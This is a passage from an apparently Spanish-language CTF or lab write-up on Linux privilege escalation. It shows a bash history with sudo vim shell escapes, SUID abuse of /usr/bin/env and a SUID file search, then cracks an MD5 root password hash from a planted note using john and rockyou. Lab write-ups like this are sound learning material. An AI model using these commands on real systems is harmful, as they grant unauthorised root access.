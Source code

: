 ```bash
ls -la
clear
sudo -l
chmod u+s /usr/bin/env
sudo vim -c ':!/bin/sh'
clear
ls
cd ..
ls
clear
ls
exit
clear
ls
su root
sudo -l
sudo vim -c ':!/bin/sh'
find / -perm -4000 2>/dev/null
/usr/bin/env /bin/sh -p
clear
cd /root
exit
sudo -l
exit

```

Viendo detalladamente el fichero se aprecian 3 posibles formas que se han usado para escalar privilegios.

# Escalada de privilegios 1

Nos movemos al directorio `cd /var/www/html/important` y leemos el fichero `.root-passwd.txt`:

```bash
russoski@28c41160317a:/var/www/html/important/$ cat .root-passwd.txt 

Anuar brother, por aquí te dejo la clave de root como dijimos, arréglame eso en cuanto puedas y ya sabes borra este archivo
apenas ya no lo necesites, que yo lo tengo guardado en KeePassXC, ah y que nadie excepto tú entre a la carpeta "/root"!

aac0a9daa4185875786c9ed154f0dece (te lo he hasheado por si las moscas)
```

Copiamos el hash y creamos un fichero con el nombre **hash**. Después usando la herramienta `john` intentamos desencriptar el hash. Le indicamos que se trata de un hash en **MD5** con `--format=Raw-MD5`, el diccionario de passwords con `—-wordlist=` y finalmente el fichero que contiene el hash:

```bash
$ echo "aac0a9daa4185875786c9ed154f0dece" > hash

$ john --format=Raw-MD5  --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
fucker           (?)
```
